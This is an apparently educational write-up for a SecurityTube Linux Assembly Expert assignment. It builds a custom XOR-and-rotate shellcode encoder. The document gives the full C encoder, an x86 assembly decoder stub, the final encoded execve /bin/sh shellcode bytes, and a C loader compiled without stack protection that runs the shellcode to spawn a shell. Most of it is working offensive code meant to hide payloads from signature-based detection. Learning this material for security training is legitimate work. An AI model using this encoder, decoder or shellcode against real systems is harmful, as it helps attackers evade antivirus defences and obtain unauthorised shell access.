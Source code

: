 # Assignment 4

## What to do
- Create a custom encoding scheme
- PoC with using execve-stack as the shellcode to encode with the produced schema and execute

## How to do it

The custom encoding schema created on this post is based on xor and rotate.

##### Encoding

The encoder operates on a given shellcode placed in the buffer named _shellcode_ and a given byte - key.

Starting from the first byte of the shellcode, it is xor-ed with the byte - key. The next shellcode byte is xored with the right rotated key - byte. This process takes place until all the bytes of the shellcode are encoded.

```c
#include<stdio.h>
#include<stdint.h>
#include<stdlib.h>

int main(int argc, char **argv)
{
	// execve shellcode
	uint8_t *shellcode =
		"\x31\xc9\xf7\xe1\x50\x68\x6e\x2f\x73\x68"		// execve /bin/sh shellode
		"\x68\x2f\x2f\x62\x69\x89\xe3\xb0\x0b\xcd\x80"; 	//

	uint8_t key = '\x6d';	// encoding key
	uint8_t *newshell;
	int i, length=0;

	// length of shellcode
	i=0;
	while (shellcode[i++] != '\0')
		length++;

	// allocate memory for the encoded shellcode
	newshell = (uint8_t *)malloc(sizeof(uint8_t)*length);

	// make the encoding
	// xor shellcode byte with key and then right rotate the key
	for (i=0; i < length; i++)
	{
		newshell[i] = shellcode[i] ^ key;	// xor shellcode byte with key
		key = ((key >> 1) | (key << 7));	// right rotate the key
	}

	printf("[+] Length of the encoded shellcode including key: %d bytes\n", length+1);
	printf("[+] Encoded shellcode and key:\n");

	// print the encoded shellcode
	printf("\t");
	for (i=0; i<length; i++)
	{
		printf("0x%02x", newshell[i]);
		if (i != length-1)
			printf(",");
	}

	// at the end of the encoded shellcode, place the encoding key
	printf(",0x%02x\n", key);

	return 0;

}
```

The code above can be found in _Assignement #4_ repo and is named as _encoder.c_

It can be compiled using `gcc -o encoder encoder.c`

The encoder can be easily modified in order to encode a different payload with a different key. For this purpose, another payload can be loaded in the buffer named _shellcode_ and another key in the variable named _key_.

##### Decoding

The decoding process begins in reverse order with rotating left the key byte and xor-ing it with the last byte of the shellcode. After that the key is rotated left and xored with the next byte of the shellcode. This process continues until the first byte of the shelloce is decoded.

```assembly
global _start

section .text
_start:

	jmp short call_shellcode

decoder:

	pop esi				; pointer to the begining of the shellcode
	xor ecx, ecx			; clear ecx
	mul ecx				; clear edx, eax
	lea edx, [esi+0x14]		; counter - pointer to the end of the shellcode
	mov al, byte [edx+0x1]		; mov the key(6b) into ecx - key located at the end of EncodedShellcode

decode:

	rol al, 1			; left rotate (calculate previous key)
	mov bl, al			; store key into ebx
	xor bl, [edx]			; xor to decode the encoded byte
	mov byte [edx], bl		; store decoded byte into memory
	cmp esi, edx			; is it the last byte of our shellcode?
	jz short EncodedShellcode	; jump to decoded shellcode
	dec edx				; decrement counter
	jmp short decode		; continue the decoding

call_shellcode:

	call decoder
	EncodedShellcode: db 0x5c,0x7f,0xac,0x4c,0x86,0x03,0xdb,0xf5,0x1e,0xde,0x33,0x82,0xf9,0x09,0xdc,0x53,0x8e,0x06,0x50,0x60,0x56,0x6b

```

The Assembly code can be compiled using the following commands respectively:
```zsh
$ nasm -f elf -o shell.o shell.asm
$ ld -o shell shell.o
```

Next step is to extract the actual shellcode from the elf file using this one-liner command:
```zsh
$ objdump -d ./shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```
found in [commandlinefu.com](http://www.commandlinefu.com)

The extracted bytes are:
```
"\xeb\x1a\x5e\x31\xc9\xf7\xe1\x8d\x56\x14\x8a\x42\x01\xd0\xc0"
"\x88\xc3\x32\x1a\x88\x1a\x39\xd6\x74\x08\x4a\xeb\xf1\xe8\xe1"
"\xff\xff\xff\x5c\x7f\xac\x4c\x86\x03\xdb\xf5\x1e\xde\x33\x82"
"\xf9\x09\xdc\x53\x8e\x06\x50\x60\x56\x6b"
```

The following code can be used to create the elf file in order to test the decoder. The shellcode must be placed in the shellcode buffer:
```c
#include<stdio.h>
#include<string.h>

unsigned char shellcode[] = \
"\xeb\x1a\x5e\x31\xc9\xf7\xe1\x8d\x56\x14\x8a\x42\x01\xd0\xc0"
"\x88\xc3\x32\x1a\x88\x1a\x39\xd6\x74\x08\x4a\xeb\xf1\xe8\xe1"
"\xff\xff\xff\x5c\x7f\xac\x4c\x86\x03\xdb\xf5\x1e\xde\x33\x82"
"\xf9\x09\xdc\x53\x8e\x06\x50\x60\x56\x6b"

main()
{

        printf("Shellcode Length:  %d\n", strlen(shellcode));

        int (*ret)() = (int(*)())shellcode;

        ret();

}
```

The code above can be found in _Assignement #4_ repo and is named as _shell.c_

The shellcode can be compiled using `gcc -fno-stack-protector -z execstack shell.c -o shell`

The execution of the elf shellcode provided the two arguments, will spawn an sh shell.

/image

## Statement
This page has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student-ID: SLAE-998
